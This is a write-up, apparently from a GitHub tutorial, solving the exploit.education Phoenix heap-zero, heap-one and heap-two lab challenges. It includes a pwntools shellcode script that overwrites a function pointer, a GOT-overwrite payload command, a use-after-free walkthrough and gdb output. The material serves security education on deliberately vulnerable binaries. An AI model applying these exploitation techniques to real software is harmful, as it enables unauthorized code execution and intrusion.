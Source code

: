 # Heap

There is multiple way of controlling the flow of a program, by overriding some part of the memory. In this section we will focus on heap memory overflow.

By example, you can override the content of the heap, to override variable or the GOT.

To got further, you have to understand the structure on how malloc manage the heap allocation: https://sourceware.org/glibc/wiki/MallocInternals

For those examples, you will need to install Phoenix: https://exploit.education/phoenix/getting-started/

## Heap Zero

### Exercise

Description: https://exploit.education/phoenix/heap-zero/

### Solution

We need to know where the function `winner` is implemented: `0x400abd`

```
$ gdb -batch -ex 'file /opt/phoenix/amd64/heap-zero' -ex 'disassemble winner'
Dump of assembler code for function winner:
   0x0000000000400abd <+0>:     push   %rbp
...
```

The function pointer gets overrided by `NNNNOOO`:
```
$ ./heap-zero AAAAAABBBBBBCCCCCCDDDDDDEEEEEEFFFFFFGGGGGGHHHHHHIIIIIIJJJJJJKKKKKKLLLLLLMMMMMMNNNNNNOOOOOOOO
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef5010, fp is at 0x7ffff7ef5060, will be calling 0x4f4f4f4f4e4e4e4e
Segmentation fault (core dumped)
```

> Sadly, the 64bit version of this challenge, is more complicated, as addresses contain null byte, preventing strcpy to proceed with our redirection.

To overcome this issue, we will inject a small binary shellcode, in our buffer, that jump to the correct address:

```asm
push 0x1010101 ^ 0x400abd
xor dword ptr [rsp], 0x1010101
ret
```

We need to override the pointer address to the begining of our data buffer, where our shellcode is injected:

```py
# You need to install pwntools, to import pwnlib
import pwnlib
import struct

BUFFER = 0x7ffff7ef5010
WINNER = 0x400abd

pwnlib.context.arch = 'amd64'
shellcode = pwnlib.shellcraft.amd64.push(WINNER)
shellcode += pwnlib.shellcraft.amd64.ret()

shellcode = pwnlib.asm.asm(shellcode, arch='amd64')

buf = shellcode + b"." * (80 - len(shellcode))
buf += struct.pack("<Q", BUFFER)

print(buf)
```

We send the payload to our command line:
```
./heap-zero `python ~/heap-zero.py`
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef5010, fp is at 0x7ffff7ef5060, will be calling 0x7ffff7ef5010
Congratulations, you have passed this level
```

## Heap One

### Exercise

Description: https://exploit.education/phoenix/heap-one/

### Solution

> For this exploit, we will operate on the x86 version of the binary due to limitation we encounter on writing null bytes through strcpy.

```
$ gdb ./heap-one
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO 0000
Starting program: /opt/phoenix/amd64/heap-one AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO 0000

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7d85c06 in stpcpy () from /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1
(gdb) x/2wx $esp
0xffffd524:     0xf7ffb000      0x46464646
```
We notice that the program, tries to write `argv[2]` at `0x46464646` (`FFFF`)).
If we could override the GOT (for the `puts` call), with an address we control, we could redirect the control flow.

```
(gdb) disassemble main
Dump of assembler code for function main:
...
   0x08048883 <+174>:   call   0x80485b0 <puts@plt>
...
(gdb) disassemble 0x80485b0
Dump of assembler code for function puts@plt:
   0x080485b0 <+0>:     jmp    DWORD PTR ds:0x804c140
   0x080485b6 <+6>:     push   0x28
   0x080485bb <+11>:    jmp    0x8048550
End of assembler dump.
(gdb) disassemble winner
Dump of assembler code for function winner:
   0x0804889a <+0>:     push   ebp
...
End of assembler dump.
```

It seems `i2->name` could be assigned to `0x804c140` (GOT entry, for `puts`), so that the next puts call, will redirect it to the winner function (`0x0804889a`).

Let's give it a try:

```sh
$ ./heap-one $(echo -e "AAAABBBBCCCCDDDDEEEE\x40\xc1\x04\x08") $(echo -e "\x9a\x88\x04\x08")
Congratulations, you've completed this level @ 1592169438 seconds past the Epoch
```

## Heap Two

### Exercise

Description: https://exploit.education/phoenix/heap-two/

### Solution

This challenge, rely on the fact that a memory segment, that was free-ed, is not dereferenced, and can still be accessible.
After executing the `reset` command: `auth->auth` is still pointed in memory at the adress: `0x600e40 + 0x20`.
By realocating memory (on the same place, using the `service` command, you override the content of `auth->auth`)
If you execute `login`, you get connected, because the service name get's written on that memory segment.

```
ange@paradize:/opt/phoenix/i486$ ./heap-two
$ ./heap-two
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth .
[ auth = 0x600e40, service = 0 ]
reset
[ auth = 0x600e40, service = 0 ]
service .
[ auth = 0x600e40, service = 0x600e40 ]
login
you have logged in already!
[ auth = 0x600e40, service = 0x600e40 ]
```